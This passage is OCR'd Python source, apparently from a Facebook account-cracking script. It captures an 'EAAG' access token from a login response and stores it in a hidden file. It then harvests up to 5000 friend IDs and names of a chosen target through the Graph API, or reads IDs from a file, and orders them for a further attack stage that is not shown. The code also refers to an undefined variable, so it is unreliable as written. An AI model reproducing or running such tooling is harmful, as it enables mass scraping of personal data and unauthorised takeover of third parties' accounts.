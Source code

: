 			find_token = re.search("(EAAG\w+)", data.text)
			ken=open(".token.txt", "w").write(find_token.group(1))
			print (" [] Login Successful")
			login()
		except Exception as e: 
			os.system("rm -f .token.txt")
			print( ' [×] Login Failed ')
			time.sleep(2.5)
			login()
			exit()
def public_menu():
	try:
		token = open('.token.txt','r').read()
	except IOError:
		exit()
	clear()
	print(logo)
	pil = input('\n [+] Enter ID Target : ')
	try:
		koh2 = requests.get('https://graph.facebook.com/v2.0/'+pil+'?fields=friends.limit(5000)&access_token='+tokenku[0]).json()
		for pi in koh2['friends']['data']:
			id.append(pi['id']+'|'+pi['name'])
		print(' [] Total : '+str(len(id)))
		setting()
	except requests.exceptions.ConnectionError:
		print (' [#] Connection Time Out')
		exit()
	except (KeyError,IOError):
		print(' [!] Not public Or Token Expire')
		exit()
def File():
			clear()
			print(logo)
			try:
				fileX = input ('\n [+] Enter file path : ') 
				for line in open(fileX, 'r').readlines():
					id.append(line.strip())
				setting()
			except IOError:
				exit("\n [!] file %s not found"%(fileX))
 
def setting():
	hu = ("2")
	if hu in ['1','01']:
		for tua in sorted(id):
			id2.append(tua)
 
	elif hu in ['2','02']:
		muda=[]
		for bacot in sorted(id):
			muda.append(bacot)
		bcm=len(muda)
		bcmi=(bcm-1)
		for xmud in range(bcm):
			id2.append(muda[bcmi])
			bcmi -=1
	elif hu in ['3','03']:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	else:
		print (' [!] Choose Correct Option')
		exit()
